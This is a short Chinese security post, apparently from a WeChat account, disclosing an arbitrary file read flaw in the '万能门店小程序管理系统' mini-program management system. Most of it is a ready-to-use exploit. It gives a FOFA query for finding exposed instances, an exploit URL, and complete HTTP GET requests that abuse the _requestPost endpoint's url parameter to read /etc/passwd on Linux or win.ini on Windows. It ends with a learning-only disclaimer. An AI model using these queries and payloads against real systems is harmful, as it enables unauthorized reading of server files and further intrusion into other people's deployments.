 #  【漏洞分享】万能门店小程序管理系统存在任意文件读取漏洞   
 HK安全小屋   2025-01-20 02:18  
  
万能门店小程序管理系统_requestPost接口存在任意文件读取漏洞  
```
fofa:body="/com/css/head_foot.css" || body="/com/css/iconfont"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI3zfEqos3brwYjbju5YvoVgPbcyIjUwh3VB1v9UHcFeS2yPoZxPA2HM6k5xjRUNYogpNvoic2XLHfQ/640?wx_fmt=png&from=appmsg "")  
  
漏洞地址：  
```
https://xx.xx.xx.xx/api/wxapps/_requestPostdata=1&url=file:///etc/passwd
```  
  
漏洞数据包（linux）:  
```
GET /api/wxapps/_requestPost?data=1&url=file:///etc/passwd HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*Connection: Keep-Alive
```  
  
漏洞数据包（windows）:  
```
GET /api/wxapps/_requestPost?data=1&url=file://C:\Windows\win.ini HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*Connection: Keep-Alive
```  
  
------------------------------------------------------------------------  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  

